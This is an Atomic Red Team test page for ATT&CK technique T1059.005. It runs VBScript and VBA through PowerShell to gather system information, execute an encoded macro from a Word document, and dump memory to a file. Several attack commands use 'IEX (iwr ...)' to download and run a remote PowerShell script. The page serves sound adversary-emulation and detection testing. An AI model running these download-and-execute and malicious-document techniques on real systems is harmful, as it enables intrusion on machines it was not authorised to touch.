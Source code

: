 # T1059.005 - Visual Basic
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1059/005)
<blockquote>Adversaries may abuse Visual Basic (VB) for execution. VB is a programming language created by Microsoft with interoperability with many Windows technologies such as [Component Object Model](https://attack.mitre.org/techniques/T1559/001) and the [Native API](https://attack.mitre.org/techniques/T1106) through the Windows API. Although tagged as legacy with no planned future evolutions, VB is integrated and supported in the .NET Framework and cross-platform .NET Core.(Citation: VB .NET Mar 2020)(Citation: VB Microsoft)

Derivative languages based on VB have also been created, such as Visual Basic for Applications (VBA) and VBScript. VBA is an event-driven programming language built into Microsoft Office, as well as several third-party applications.(Citation: Microsoft VBA)(Citation: Wikipedia VBA) VBA enables documents to contain macros used to automate the execution of tasks and other functionality on the host. VBScript is a default scripting language on Windows hosts and can also be used in place of [JavaScript](https://attack.mitre.org/techniques/T1059/007) on HTML Application (HTA) webpages served to Internet Explorer (though most modern browsers do not come with VBScript support).(Citation: Microsoft VBScript)

Adversaries may use VB payloads to execute malicious commands. Common malicious usage includes automating execution of behaviors with VBScript or embedding VBA content into [Spearphishing Attachment](https://attack.mitre.org/techniques/T1566/001) payloads.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Visual Basic script execution to gather local computer information](#atomic-test-1---visual-basic-script-execution-to-gather-local-computer-information)

- [Atomic Test #2 - Encoded VBS code execution](#atomic-test-2---encoded-vbs-code-execution)

- [Atomic Test #3 - Extract Memory via VBA](#atomic-test-3---extract-memory-via-vba)


<br/>

## Atomic Test #1 - Visual Basic script execution to gather local computer information
Visual Basic execution test, execute vbscript via PowerShell.

When successful, system information will be written to $env:TEMP\T1059.005.out.txt.

**Supported Platforms:** Windows


**auto_generated_guid:** 1620de42-160a-4fe5-bbaf-d3fef0181ce9





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| vbscript | Path to sample script | String | PathToAtomicsFolder&#92;T1059.005&#92;src&#92;sys_info.vbs|


#### Attack Commands: Run with `powershell`! 


```powershell
cscript #{vbscript} > $env:TEMP\T1059.005.out.txt
```

#### Cleanup Commands:
```powershell
Remove-Item $env:TEMP\T1059.005.out.txt -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: Sample script must exist on disk at specified location (#{vbscript})
##### Check Prereq Commands:
```powershell
if (Test-Path #{vbscript}) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -ItemType Directory (Split-Path #{vbscript}) -Force | Out-Null
Invoke-WebRequest "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1059.005/src/sys_info.vbs" -OutFile "#{vbscript}"
```




<br/>
<br/>

## Atomic Test #2 - Encoded VBS code execution
This module takes an encoded VBS script and executes it from within a malicious document. By default, upon successful execution
a message box will pop up displaying "ART T1059.005"

A note regarding this module, due to the way that this module utilizes "ScriptControl" a 64bit version of Microsoft Office is required.
You can validate this by opening WinWord -> File -> Account -> About Word

**Supported Platforms:** Windows


**auto_generated_guid:** e8209d5f-e42d-45e6-9c2f-633ac4f1eefa






#### Attack Commands: Run with `powershell`! 


```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1204.002/src/Invoke-MalDoc.ps1" -UseBasicParsing)
Invoke-Maldoc -macroFile "PathToAtomicsFolder\T1059.005\src\T1059.005-macrocode.txt" -officeProduct "Word" -sub "Exec"
```

#### Cleanup Commands:
```powershell
Get-WmiObject win32_process | Where-Object {$_.CommandLine -like "*mshta*"}  | % { "$(Stop-Process $_.ProcessID)" } | Out-Null
```



#### Dependencies:  Run with `powershell`!
##### Description: The 64-bit version of Microsoft Office must be installed
##### Check Prereq Commands:
```powershell
try {
  $wdApp = New-Object -COMObject "Word.Application"
  $path = $wdApp.Path
  Stop-Process -Name "winword"
  if ($path.contains("(x86)")) { exit 1 } else { exit 0 }
} catch { exit 1 }
```
##### Get Prereq Commands:
```powershell
Write-Host "You will need to install Microsoft Word (64-bit) manually to meet this requirement"
```




<br/>
<br/>

## Atomic Test #3 - Extract Memory via VBA
This module attempts to emulate malware authors utilizing well known techniques to extract data from memory/binary files. To do this
we first create a string in memory then pull out the pointer to that string. Finally, it uses this pointer to copy the contents of that
memory location to a file stored in the $env:TEMP\atomic_t1059_005_test_output.bin.

**Supported Platforms:** Windows


**auto_generated_guid:** 8faff437-a114-4547-9a60-749652a03df6





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| ms_product | Maldoc application Word | String | Word|


#### Attack Commands: Run with `powershell`! 


```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1204.002/src/Invoke-MalDoc.ps1" -UseBasicParsing) 
Invoke-Maldoc -macroFile "PathToAtomicsFolder\T1059.005\src\T1059_005-macrocode.txt" -officeProduct "Word" -sub "Extract"
```

#### Cleanup Commands:
```powershell
Remove-Item "$env:TEMP\atomic_t1059_005_test_output.bin" -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: Microsoft #{ms_product} must be installed
##### Check Prereq Commands:
```powershell
try {
  New-Object -COMObject "#{ms_product}.Application" | Out-Null
  $process = "#{ms_product}"; if ( $process -eq "Word") {$process = "winword"}
  Stop-Process -Name $process
  exit 0
} catch { exit 1 }
```
##### Get Prereq Commands:
```powershell
Write-Host "You will need to install Microsoft #{ms_product} manually to meet this requirement"
```




<br/>
